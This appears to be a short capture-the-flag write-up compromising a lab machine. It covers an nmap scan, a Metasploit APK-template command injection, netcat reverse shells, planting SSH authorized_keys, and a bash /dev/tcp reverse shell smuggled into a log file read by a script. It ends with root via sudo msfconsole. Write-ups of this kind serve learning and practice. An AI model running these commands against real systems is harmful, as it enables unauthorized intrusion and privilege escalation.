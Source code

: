 First we ran an nmap scan on the system:
```
nmap -sV -sC -T4 10.10.10.226
```
we found an open port 5000 and then browsed to the endpoint and found a website that allowed us to upload files.
using search sploit found out that msfconsole could be used to generate a payload that could exploit the machine

commands
```
use exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection
set lhost <attacker ip>
set lport 4444
exploit
```
the exploit did not work with the python reverse shell so we switched to a netcat reverse  shell and it generated an apk file.
We then uploaded the file to the website and opened up a netcat listener ```nc -nlvp 4444```

We successfully gained user access to the machine and then cd'd into the .ssh folder and downloaded an authorized_keys file generated with ```ssh-keygen -f rsa``` and sent it with netcat ```nc -w 3 <victim ip> 1234 < authorized_keys``` recieved it with ```nc -nlvp 1234 > authorized_keys```.

after sshing in I gained access to the pwn folder and found a script called "scanlosers.sh" that called to a file called "~/logs/hacker".

we created a one liner reverse shell to connect to user pwn successfully.

```
echo "  ;/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.9/4444 0>&1' #" >> hackers
```
Using ```sudo -l``` we found that the user had root permissions to use the binary /opt/metasploit-framework-6.0.9/msfconsole.

going to GTFO bins I found an exploit that allowed me to get root privledges with the commands"
```
sudo msfconsole
msf6 > ```irb```
```
We now have root access to the machine action is no longer required.
